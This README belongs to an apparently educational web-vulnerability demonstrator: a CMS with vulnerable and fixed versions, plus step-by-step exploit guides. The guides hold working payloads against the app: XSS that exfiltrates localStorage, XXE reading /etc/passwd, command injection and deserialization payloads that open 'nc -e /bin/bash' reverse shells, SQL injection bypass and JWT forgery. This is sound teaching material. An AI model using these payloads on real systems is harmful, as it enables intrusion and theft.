


# SVT Web Demonstrator

A simple React + Express web application for demonstrating main web vulnerabilities.

## The web application

This web application is a simple content management system (CMS) that allows a registered user to add pages (articles) which can be seen by other users. There are two sections:
* **Front-office**: this section can be seen by all users, logged-in or not.
* **Back-office**: this section can only be seen by registered users. It can be considered as a sort of control panel where users can add, edit or delete pages.

Each page, depending on its publication date, can be:
* **Published**: the page is visible in both the front-office and the back-office.
* **Scheduled**: the page's publication is scheduled to a later date, before which the page is visible only in the back-office.
* **Draft**: the page is visible only in the back-office, without a scheduled publication.

Pages have a title, a publication date and are made of multiple blocks. Blocks can be either headers, paragraphs or images.


## Folder structure

```
/
│
├── exploit/        -- Contains scripts and extra material used for various exploits. 
|
├── secure/         -- Contains the fixed version of the application, where the exploits listed below should not work.
│   ├── client/     -- Front-end managed by React, contains all application components plus the api.js file to contact the back-end 
│   ├── httpsCert/  -- Contains the self signed certificate and the private key associated with the certificate 
│   └── server/     -- It contains the back-end of the application, managed by nodejs and Express.
|
├── vulnerable/     -- Contains the vulnerable version of the application, where all the exploits listed below are working.
│   ├── client/     -- Front-end managed by React, contains all application components plus the api.js file to contact the back-end 
│   └── server/     -- Contains the back-end of the application, managed by nodejs and Express.
|
└── README.md
```

## Running the application

The following commands should be run in four separate terminals, from the root of the project:

```shell
# Terminal 1 - Run the front-end server of the vulnerable application in development mode
cd vulnerable/client
npm install
npm run dev

# Terminal 2 - Run the back-end of the vulnerable application
cd vulnerable/server
npm install
node index.js

# Terminal 3 - Run the front-end server of the fixed application in development mode
cd secure/client
npm install
npm run dev

# Terminal 4 - Run the back-end of the fixed application
cd secure/server
npm install
node index.js
```

There should be multiple servers listening on separate ports:
* The vulnerable front-end (port `5173`)
* The vulnerable back-end/API HTTP server (port `3001`)
* The secure front-end (port `5174`)
* The secure back-end/API HTTP server (port `3002`)
* The secure back-end/API HTTPS server (port `8081`)

## Existing users and login

Vulnerable version users:

| username            | password | admin   |
|---------------------|----------|---------|
| mario@example.org   | password | `true`  |
| luigi@example.org   | password | `false` |
| sofia@example.org   | password | `false` |
| giulia@example.org  | password | `false` |

Secure version users:

| username            | password  | admin   |
|---------------------|-----------|---------|
| mario@example.org   | password! | `true`  |
| luigi@example.org   | password! | `false` |
| sofia@example.org   | password! | `false` |
| giulia@example.org  | password! | `false` |

### Logging in from the web interface

1. Visit `localhost:517*/login` (`*` is either 3 or 4, depending on whether you're visiting the vulnerable or the secure version)
2. Input the correct credentials
3. Click on "Login" or press Enter.

### Logging in from the API

1. Send the following HTTP request to the API server:
    ```http
    POST /api/sessions HTTP/1.1
    Host: localhost:3001
    Content-Type: application/json

    {
        "username": "<username>",
        "password": "<password>"
    }
    ```
    Of course, substitute `<username>` and `<password>` with the desired credentials.
2. The server will send you an `access_token` as a cookie. This will be used for all subsequent requests. Usually, this cookie will be used automatically by the software used for sending the requests.

## Executing the exploits

This section includes step-by-step guides for executing each exploit. For a more detailed view of the exploits, the reasons they work and the relative fixes, refer to the PDF report.

<u>All exploits will be assumed to be run from the vulnerable version of the application</u>. The steps for the fixed version are the same, but be careful of the ports inside the links and the HTTP requests.

### CWE-79: Improper Neutralization of Input During Web Page Generation ("Cross-site Scripting", XSS) - Stored

1. Use `netcat` to create a service listening on port 4242 of the attacker's machine:
    ```shell
    while true; do nc -lvp 4242; echo '\n'; done
    ```
    **Note**: To stop this service from listening, you must close the terminal. CTRL+C does not work.
2. [Log-in as an existing user from the Web interface.](#logging-in-from-the-web-interface)
3. Click the "New page" button on the back-end to add a new page.
4. Insert a title and a header block with any content.
5. Insert a paragraph block, containing the following HTML tag for a simple alert to appear:
    ```html
    
    ```
    or, alternatively, insert the following tag for the victim to send a request to the attacker's machine (`localhost` in this case) on port 4242 with `fetch`:
    ```html
    
    ```
6. Publish the article and view it.
7. For the `fetch` request, look at the attacker's shell running the `netcat` service.

### CWE-79: Improper Neutralization of Input During Web Page Generation ("Cross-site Scripting", XSS) - DOM

1. [Log-in as an existing user from the Web interface.](#logging-in-from-the-web-interface)
2. Click the "New page" button on the back-end to add a new page.
3. Insert a title and a header block with any content.
4. Insert a paragraph block, containing any of the HTML tags shown in the [CWE-79 (Stored)](#cwe-79-improper-neutralization-of-input-during-web-page-generation-cross-site-scripting-xss---stored) section.
5. Click the "Show Preview" button.

### CWE-79: Improper Neutralization of Input During Web Page Generation ("Cross-site Scripting", XSS) - Reflected

1. Visit one of the following URLs:
    
    * This will show a simple alert:
        ```
        http://localhost:5173/front?search=%3Cimg+src%3D%22%22+onerror%3D%22alert%28%27pwned%27%29%22%3E
        ```

    * This will send a request to the attacker's machine at port 4242:
        ```
        http://localhost:5173/front?search=%3Cimg+src%3D%22%22+onerror%3D%22fetch%28%27http%3A%2F%2Flocalhost%3A4242%27%2C%7Bmethod%3A%27POST%27%2Cbody%3A%27Some+information%27%7D%29%22%3E
        ```

### CWE-921: Storage of Sensitive Data in a Mechanism without Access Control

1. Execute any one of the previous XSS exploits using the following HTML tag:
    ```html
    
    ```
    If the Reflected variant of XSS is used, the URL is the following:
    ```
    http://localhost:5173/back?search=%3Cimg+src%3D%22%22+onerror%3D%22fetch%28%27http%3A%2F%2Flocalhost%3A4242%27%2C%7Bmethod%3A%27POST%27%2Cbody%3A%27User+ID%3A+%27%2BlocalStorage.getItem%28%27userID%27%29%2B%27%2C+Name%3A+%27%2BlocalStorage.getItem%28%27name%27%29%2B%27%2C+Mail%3A+%27%2BlocalStorage.getItem%28%27username%27%29%7D%29%22%3E
    ```

### CWE-601: URL Redirection to Untrusted Site (’Open Redirect’)

1. In the front-office, inspect the link to a page. An example of a URL is the following:
    ```
    http://localhost:3001/api/pageclick?redirect=http%3A%2F%2Flocalhost%3A5173%2Fpages%2F1
    ```
2. Change the `redirect` parameter to any desired location, for example:
    ```
    http://localhost:3001/api/pageclick?redirect=https%3A%2F%2Fgoogle.com
    ```

### CWE-611: Improper Restriction of XML External Entity (XXE) Reference

1. [Log-in as an existing user from the API.](#logging-in-from-the-api)
2. Send the following HTTP request to the API server:
    ```http
    POST /api/pages HTTP/1.1
    Host: localhost:3001
    Content-Type: text/xml

    <?xml version='1.0'?>
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <page title="Exploit" publicationDate="2024-01-01">
        <block type="header">Here's the server's /etc/passwd</block>
        <block type="paragraph">&xxe;</block>
    </page>
    ```

### CWE-918: Server-Side Request Forgery (SSRF)

It is recommended to have a local running HTTP server on the victim's server and assume that it cannot be accessible from the outside to better understand this attack. The following Docker command runs a simple HTTP web server on port 8080:
```shell
docker run -p 8080:80 salb98/svt-local-webserver
```
Its structure is very simple:
```
/
│
├── images/
│   └── secret.png
└── index.html
```

Scan the server's open ports:
1. Run the [Python script](./exploit/portscan.py) present in the `exploit` directory. You can do this by typing the following command from the root of the repository:
    ```shell
    python exploit/portscan.py
    ```
2. Wait a few seconds, until the script has finished its execution. A possible output is the following:
    ```
    Port 5173 is active!
    Port 8080 is active!
    ```

Download an image from the local server:
1. [Log-in as an existing user from the Web interface.](#logging-in-from-the-web-interface).
2. Click the "New page" button on the back-end to add a new page.
3. Insert a title and a header block.
4. Add an image block, set it to "Upload a new image" and "Download from an external URL", then input any file name and the following URL:
    ```
    http://localhost:8080/images/secret.png
    ```

### CWE-78: Improper Neutralization of Special Elements used in an OS Command (’OS Command Injection’)

1. Use `netcat` to create a service listening on port 4242 of the attacker's machine:
    ```shell
    while true; do nc -lvp 4242; echo '\n'; done
    ```
    **Note**: To stop this service from listening, you must close the terminal. CTRL+C does not work.
2. [Log-in as an existing user from the Web interface.](#logging-in-from-the-web-interface)
3. Click the "New page" button on the back-end to add a new page.
4. Insert a title and a header block.
5. Add an image block, set it to "Existing image" and then input the following string in the search query to show the contents of the server's `/etc/passwd` file:
    ```
    ";cat${IFS%??}/etc/passwd;echo${IFS%??}-n${IFS%??}"
    ```
    Alternatively, input the following string to spawn a reverse shell:
    ```
    ";nc${IFS%??}-e${IFS%??}/bin/bash${IFS%??}127.0.0.1${IFS%??}4242;echo${IFS%??}"
    ```
6. For the reverse shell, input any shell command in the attacker's terminal running the `netcat` service.

### CWE-22: Improper Limitation of a Pathname to a Restricted Directory (’Path Traversal’)

1. [Log-in as an existing user from the Web interface.](#logging-in-from-the-web-interface)
2. Click the "New page" button on the back-end to add a new page.
3. Insert a title and a header block.
4. Add an image block, set it to "Upload a new image" and either "Upload a file" or "Download from an external URL", then input any image/URL and set the file name to `../../../outside`.
5. Look at the repository's contents. The image should have been saved in the repository's root.

### CWE-502: Deserialization of Untrusted Data

Show the contents of the root folder in the API server's logs:
1. [Log-in as an existing user from the API.](#logging-in-from-the-api)
2. Send the following HTTP request to the API server:
    ```http
    POST /api/pages HTTP/1.1
    Host: localhost:3001
    Content-Type: text/xml

    <?xml version='1.0'?>
    <page title="Exploit" author='2' publicationDate=''>
        <block type='header'>Deserialize THIS</block>
        <!-- {"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });}()"} -->
        <block type='image'>eyJyY2UiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24gKCl7cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoJ2xzIC8nLCBmdW5jdGlvbihlcnJvciwgc3Rkb3V0LCBzdGRlcnIpIHsgY29uc29sZS5sb2coc3Rkb3V0KSB9KTt9KCkifQ==</block>
    </page>
    ```
3. Look at the API server's logs inside the terminal.

Spawn a reverse shell:
1. Use `netcat` to create a service listening on port 4242 of the attacker's machine:
    ```shell
    while true; do nc -lvp 4242; echo '\n'; done
    ```
    **Note**: To stop this service from listening, you must close the terminal. CTRL+C does not work.
2. [Log-in as an existing user from the API.](#logging-in-from-the-api)
3. Send the following HTTP request to the API server:
    ```http
    POST /api/pages HTTP/1.1
    Host: localhost:3001
    Content-Type: text/xml

    <?xml version='1.0'?>
    <page title="Exploit" author='2' publicationDate=''>
        <block type='header'>Deserialize THIS</block>
        <!-- {"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('nc -e /bin/bash 127.0.0.1 4242')}()"} -->
        <block type='image'>eyJyY2UiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24gKCl7cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoJ25jIC1lIC9iaW4vYmFzaCAxMjcuMC4wLjEgNDI0MicpfSgpIn0=</block>
    </page>
    ```
3. Input any shell command in the attacker's terminal running the `netcat` service.

### CWE-1333: Inefficient Regular Expression Complexity (’Regex Attack’)

1. Send a POST request to `http://localhost:3001/api/register` like this one :
    ```http
    POST /api/register HTTP/1.1
    Host: localhost:3001
    Content-Type: application/json

    {
        "name": "^(([a-z])+.)+[A-Z]([a-z])+$",
        "username": "prova9@example.org",
        "password":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!!",
        "admin": false 
    }
    ```

### CWE-915: Improperly Controlled Modification of Dynamically-Determined Object Attributes
1. Send a POST request to `http://localhost:3001/api/register` like this one :
    ```http
    POST /api/register HTTP/1.1
    Host: localhost:3001
    Content-Type: application/json

    {
        "name": "prova",
        "username": "prova@example.org",
        "password": "password",
        "admin": true 
    }   
    ```
2. The server will create a new account by registering it as admin.

### CWE-328: Use of Weak Hash

1. Get the password hash, in this case trivially by looking at the database
2. Use tools such as hashcat to recover the original password. 
3. Download a list of known passwords such as in this case rockyou.txt and run the following command to implement a dictionary attack:
    ```shell
    hashcat -m 0 -a 0 passHash.txt rockyou.txt
    ```
4. You should get an output like this:
    ``` 
    Dictionary cache built :
    * Filename ..: rockyou . txt
    * Passwords .: 14344391
    * Bytes .....: 139921497
    * Keyspace ..: 14344384
    * Runtime ...: 1 sec
    5 f4dcc3b5aa765d61d8327deb882cf99 : password
    Session ..........: hashcat
    Status ...........: Cracked
    Hash . Mode ........: 0 ( MD5 )
    Hash . Target ......: 5 f4dcc3b5aa765d61d8327deb882cf99
    Time . Started .....: Mon Feb 12 17:20:21 2024 (0 secs )
    Time . Estimated ...: Mon Feb 12 17:20:21 2024 (0 secs )
    Kernel . Feature ...: Pure Kernel
    Guess . Base .......: File ( rockyou . txt )
    Guess . Queue ......: 1/1 (100.00%)
    Speed .#1.........: 33671.1 kH / s (1.76 ms ) @ Accel :1024 Loops :1 Thr :32 Vec :1
    Recovered ........: 1/1 (100.00%) Digests ( total ) , 1/1 (100.00%) Digests ( new )
    Progress .........: 196608/14344384 (1.37%)
    Rejected .........: 0/196608 (0.00%)
    Restore . Point ....: 0/14344384 (0.00%)
    Restore . Sub .#1...: Salt :0 Amplifier :0 -1 Iteration :0 -1
    Candidate . Engine .: Device Generator
    Candidates .#1....: 123456 -> piggy !
    Hardware . Mon .#1..: Temp : 42 c Util : 0% Core :1645 MHz Mem :3504 MHz Bus :16
    ```

### CWE-89: SQL Injection

1. Do a POST request to `http://localhost:3001/api/session` like this one :
    ```http
    POST /api/sessions HTTP/1.1
    Host: localhost:3001
    Content-Type: application/json

    {
        "username": "mario@example.org' --",
        "password": "UknownPassword"
        
    }
    ```
2. By exploiting the comment operation you manage to avoid the password check, getting the correct credentials in output.
    ```http
    HTTP/1.1 200 OK
    [...]
    access_token=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJpZCI6MSwidXNlcm5hbWUiOiJtYXJpb0BleGFtcGxlLm9yZyIsIm5hbWUiOiJNYXJpbyIsImFkbWluIjoxLCJpYXQiOjE3MDc4MjU2ODh9.;
    Max-Age=604800;Path=/;Expires=Tue, 20 Feb 2024 12:01:28 GMT; HttpOnly
    [...]

    {
        "id": 1 ,
        "username": "mario@example.org",
        "name": "Mario",
        "admin": 1
    }
    ```

### CWE-798: Use of Hard-coded Credentials

1. By getting the jwt secret easily from the source code you can use a script like this to sign the data you want to put in the token and pass the token verification:
    ```js
    const jwt = require (' jsonwebtoken ') ;
    const jwtSecret = " mydfs68jlk5620jds7akl8m127a8sdh168hj ";
    const obj ={
        id: 9,
        name: "Test",
        username: "test@example.org",
        admin: 1,
    }
    const token = jwt.sign(obj, jwtSecret, { algorithm:  "none" });
    console.log(token)
    ```
2. Now that you have obtained the token you just enter it in in the cookie section of the front-end or enter it in a POST request to get the logged in user/admin priveleges. 

### CWE-522: Insufficiently Protected Credentials

1. Since the token is simply encoded in base64URL just decode it to get the information inside. This information can be exploited by an attacker for a future attack.Use this simple script to get the information within it :
    ```js
    const token ='eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJpZCI6MiwidXNlcm5hbWUiOiJsdWlnaUBleGFtcGxlLm9yZyIsIm5hbWUiOiJMdWlnaSIsImFkbWluIjowLCJpYXQiOjE3MDc4NTg4MDN9.';
    const separatedToken = token.split('.')
    for (let index = 0; index < separatedToken.length; index ++) {
        const element = separatedToken[index];
        // Decode base64
        const decodedBuffer = Buffer.from(element, 'base64') ;
        console.log(decodedBuffer.toString('utf8')) ;
    }
    ```
2. The output would be :
    ```json
    {"alg": "none", "typ": "JWT"}
    {"id": 2, "username": "luigi@example.org", "name": "Luigi","admin": 0, "iat": 1707858803}
    ```

### CWE-345: Insufficient Verification of Data Authenticity
1. Retrieve the token from the cookie section of your browser 

2. Use this script to modify the information inside your token 
    ```js
    const jwt = require('jsonwebtoken');
    const readline = require('readline');

    const rl = readline.createInterface({
    input: process.stdin,
    output: process.stdout
    });

    let oldToken;

    rl.question('Insert the token: ', (inputString) => {
    console.log(`Token: ${inputString}`);
    oldToken = inputString;

    rl.close();

    handleToken();
    });

    function handleToken() {

    const separatedToken = oldToken.split('.')

    const header = separatedToken[0];
    const payload = separatedToken[1];

    const decodedPayload = Buffer.from(payload, 'base64');
    const modifiedPayload= decodedPayload.toString('utf8').replace("0","1");
    console.log(modifiedPayload)

    const payloadBase64 = Buffer.from(modifiedPayload).toString('base64');

    const newToken = header+"."+payloadBase64
    console.log("New Token:", newToken.replace(/\+/g, "-").replace(/\//g, "_").replace(/=/g, "."))
    
    }
    ```
3. Now that you have obtained the modified token replace it with the original token and reload the page.

### CWE-209: Generation of Error Message Containing Sensitive Information
1. In the log in function there is a console.trace(err) that in case of an error reports all the path following the error. If by chance there should be an internal system error, we can simulate it by simply changing the name of the database, the attacker receives this error.


2. This disclosure of information certainly helps the attacker to exploit the CWE-89 SQL Injection vulnerability. 

### CWE-319: Cleartext Transmission of Sensitive Information

1. Use a tool such as wireshark to see the communication between client and server. 

2. You now have the credentials to enter to authenticate